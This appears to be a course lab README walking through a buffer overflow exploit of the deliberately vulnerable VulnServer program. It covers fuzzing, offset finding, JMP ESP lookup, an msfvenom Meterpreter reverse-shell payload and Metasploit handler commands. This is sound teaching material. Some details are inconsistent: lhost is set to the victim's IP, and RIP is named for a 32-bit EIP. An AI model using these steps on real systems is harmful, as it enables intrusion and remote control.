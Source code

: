 # VulnServer 

We Need Two Virtual Machines Windows 10 , Kali . Download VulnServer [Here](https://thegreycorner.com/vulnserver.html)

In the Windows VM open Cmd go to `vulnserver` directory < Run `vulnserver.exe`.

In the Kali , write this command below < HELP
```sh
nc -nv <windows ip> 9999
```
Now we have to Find a Crash we do that by Fuzzing , we write a code in `test.spk`.

![alt text](testspk.png)

run the vulnserver < write a command in kali 

```sh
generic_send_tcp <windows vm ip> 9999 test.spk 0 0
```
We then Notice that it crashes after a bunch of inputs 

![alt text](spkcrash.png)

Now that we got a Crash , Its time to Analyse the Crash for that we use Immunity Debugger [Download](https://www.immunityinc.com/products/debugger/)

Open the Vulnserver.exe in Immunity Debugger.

To Recreate the Crash we write a Python Script : `exploit3.py`
We input 5000 A's so that it crashes the vulnserver

```python
#!/usr/bin/python
import os 
import sys 
import socket


host = "192.168.242.130"
port = 9999
buffer = "A" * 5000
s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print ("sending exploit3")
s.send("TRUN /.:/" + buffer)
print s.recv(1024)
s.close()
```
Close your CMD in Windows and Open the Vulnserver.exe file in the Immunity Debugger.
When it loads up Press the Play button 

Then Go to your Kali Terminal and type this command below 
```sh
python2 exploit3.py
```
After running Press Ctrl + C 

Now Check your Immunity Debugger , You will see crash has happened like this 

![alt text](exp3_immunity.png)

We need to Identify Offset write command below in kali
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```
Input the pattern exactly as given in `exploit4.py` file.

Restart the Immunity Debugger by pressing `<<` this button and play it again.

Run your python file similar as you did for exploit3.py.Now again press Ctrl + C and check for crash in your Immunity debugger.

Note Down the RIP value we need it for calculating the Offset

![alt text](exp4_immunity.png)

In Kali write this command with value of RIP address 
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 5000 -q 386F4337
```
Offset = 2003
We now input 2003 - A , 4 - B , rest - C to check if B go into RIP

Write the next exploit as per `exploit5.py` , Restart your Immunity debugger - play it and Run your exploit5 script in kali . Now again check your immunity debugger  

We can see that RIP register is Overwritten with B's and we successfully hijacked it !

![alt text](exp5_immunity.png)

In your Immunity Debugger get the byte array for Bad character as per this image below 

![alt text](bad_char.png)

Put the Bad Characters in your script as per  `exploit6_bad.py` . restart the Immunity Debugger and run the script

You will notice that that "\x00" is bad character so we remove it , restart Immunity and run again ( I have already removed "\x00" in  `exploit6_bad.py` of repo)

It works Fine.

NOW WE NEED TO FIND THE JUMP ESP TO OVERWRITE THE RETURN ADDRESS TO VALUE POINTING TOWARDS OUR MEMORY 

type these commands in your Immunity Debugger 
```sh
!mona modules
```

```sh
!mona find -s "\xff\xe4" -m essfunc.dll
```
![alt text](jmp_esp.png)

You will see that best address we can use is `0x625011AF`. Lets code it into our next exploit

Do note that while coding it we have to write it in Little Endian manner as per in `exploit7.py`

Restart the Immunity Debugger and In that ( LISTEN PROPERLY )

1. Right click < Go To < Expression < Write `625011AF`
   
2. Right Click at 625011AF < Set Breakpoint < toggle

3. Run it 

Check if your EIP is at 625011AF , Now beside the pause button there button in which you can step into memory address press it.

![alt text](exp7_immunity.png)

![alt text](exp7_immunity_inside.png)

TIME TO WRITE THE FINAL EXPLOIT !!

We need our payload , get it with this 
```sh
msfvenom -p windows/meterpreter/reverse_tcp lhost=<windows_ip> lport=4444 -e x86/shikata_ga_nai -b "\x00" -f c
```

Paste the payload in script as per `exploit_final.py`

CLOSE THE IMMUNITY DEBUGGER 
OPEN CMD AND OPEN THE EXE FILE AS WE DID AT START

In kali run your `exploit_final.py` with python2

Do all these steps 
```sh
python2 exploit_final.py
```
```sh
msfconsole
```
```sh
use/exploit/multi/handler
```
```sh
set payload windows/meterpreter/reverse_tcp
```
```sh
set lhost <kali ip>
```
```sh
run
```

If you did it properly you will get Meterpreter Reverse Shell on your Kali

Check the Google Classroom PPTs and Videos if you have any doubts.







